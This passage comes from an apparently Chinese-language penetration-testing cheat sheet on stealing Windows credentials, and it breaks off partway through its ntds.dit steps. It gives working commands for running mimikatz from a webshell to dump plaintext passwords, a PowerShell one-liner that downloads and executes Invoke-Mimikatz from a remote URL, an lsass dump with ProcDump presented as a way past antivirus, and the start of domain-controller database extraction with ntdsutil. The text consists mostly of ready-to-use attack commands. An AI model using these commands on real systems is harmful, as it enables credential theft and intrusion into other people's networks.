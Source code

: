 2、非交互式抓明文密码(webshell中)  
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

3、powershell加载mimikatz抓取密码  
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
```

4、ProcDump + Mimikatz本地分析  
文件会比较大，低效，但是安全(绕过杀软)   
ps:mimikatz的平台（platform）要与进行dump的系统(source dump)兼容(比如dowm了08的,本地就要用08系统来分析)  
```
远程：
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
本地：
sekurlsa::minidump lsass.dump.dmp
sekurlsa::logonpasswords full
```
![](./pic/5/2.jpg)  


##### ntds.dit的导出+QuarkPwDump读取分析 
无法抓取所有用户,需要免杀  

这个方法分为两步：  
第一步是利用工具导出ntds.dit  
第二步是利用QuarkPwDump去分析hash  

1、ntds.dit的导出  
1. ntdsutil    win2008开始DC中自带的工具  
a.交互式
```
>
>snapshot
>activate instance ntds
>create
>mount xxx
>
```